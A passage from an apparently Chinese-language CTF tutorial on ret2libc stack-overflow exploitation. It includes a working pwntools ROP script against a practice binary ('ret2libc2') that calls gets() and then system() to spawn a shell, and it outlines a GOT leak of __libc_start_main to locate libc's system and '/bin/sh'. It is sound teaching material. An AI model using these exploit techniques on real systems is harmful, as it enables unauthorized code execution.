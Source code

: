 ##### 第二类：ret2libc2——只有system()

运行程序，file查看文件为动态链接即和libc相关，查看保护机制只开启NX：
![[Pasted image 20240923213622.png]]
可以发现与示例1相比，这次不直接提供“/bin/sh”，那就换种思维，多利用一个gadgets，可以在plt中看到有gets()函数，即可以将该gets()函数地址用来踩掉原本程序函数的返回地址，然后通过输入的方式将“/bin/sh”输入进去。换句话说，整个过程分成了两部分，第一部分是将“/bin/sh”读入到内存中；第二部分是执行system()获取shell：
![[Pasted image 20240923213701.png]]
最后就是payload的构造了。因为在gets()函数完成后需要调用system()函数需要保持堆栈平衡，所以在调用完gets()函数后提升堆栈，这就需要add esp, 4这样的指令但是程序中并没有这样的指令。更换思路，通过使用pop xxx指令也可以完成同样的功能，在程序中找到了pop ebx，ret指令。通过ROPgadget工具查看，发现存在一条符合条件的指令，地址为0x0804841d：
![[Pasted image 20240923213720.png]]
编写payload：

```
from pwn import *

sh = process("./ret2libc2")
libc_gets_addr = 0x08048460
libc_system_addr = 0x08048490
buf2_addr = 0x0804a080
pop_ebx_addr = 0x0804841d
payload = flat(["A" * 0x70, libc_gets_addr, pop_ebx_addr, buf2_addr, libc_system_addr, '6666', buf2_addr])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

##### 第三类：ret2libc3——无system()和/bin/sh，无 libc.so文件

首先，查看安全保护：
![[Pasted image 20240923213731.png]]
  
那么我们如何得到 system 函数的地址呢？这里就主要利用了两个知识点：

- system 函数属于 libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
- 即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。

为什么是最低的12为不会改变呢，那是因为虚拟内存的储存是以页的形式存储的，而页的最小单位是4kb，也就是2的12次方，因此是12位。

那么如何得到 libc 中的某个函数的地址呢？我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。当然，由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。

此外，在得到 libc 之后，其实 libc 中也是有 /bin/sh 字符串的，所以我们可以一起获得 /bin/sh 字符串的地址。

这里我们泄露 __libc_start_main 的地址，这是因为它是程序最初被执行的地方。基本利用思路如下

- 泄露 __libc_start_main 地址
- 获取 libc 版本
- 获取 system 地址与 /bin/sh 的地址
- 再次执行源程序
- 触发栈溢出执行 system(‘/bin/sh’)

exp 如下：
